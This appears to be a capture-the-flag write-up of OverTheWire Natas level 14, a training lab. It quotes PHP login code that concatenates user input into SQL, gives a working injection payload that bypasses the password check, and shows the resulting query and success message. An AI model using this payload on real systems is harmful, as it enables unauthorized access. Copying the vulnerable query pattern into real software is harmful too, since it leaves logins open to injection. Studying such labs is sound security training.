




# Natas — Level 14 → 15

**Category:** OverTheWire / Natas  
**Difficulty:** Medium  
**Date:** 2026-08-23

## Goal

A plain username/password login form:

## Solution

The source showed the login query was built with raw string concatenation, no escaping or parameterization at all:

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    ...
    if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
        echo "Successful login! The password for natas15 is <censored> ";
    } else {
        echo "Access denied! ";
    }

Login only needs the query to return at least one row — the actual credentials don't matter if the `username` field can break out of its quotes and turn the `WHERE` clause into something always true. Submitted:

    Username: " OR 10=10 #
    Password: saahithi

The closing `"` ends the intended username string, `OR 10=10` makes the condition true for every row, and `#` comments out the rest of the query (including the password check entirely), so it resolves to something like:

    SELECT * from users where username="" OR 10=10 #" and password="saahithi"

which matches every row in the table regardless of the password submitted:

    Successful login! The password for natas15 is [REDACTED]

## Result

    Password for natas15: [REDACTED]

## Key Takeaway

Building SQL queries by directly concatenating user input is the textbook SQL injection setup — a single unescaped quote lets an attacker close the intended string early and append their own logic. `OR 10=10` is a classic always-true condition, and `#` comments out the rest of the query so the password field never even gets checked.
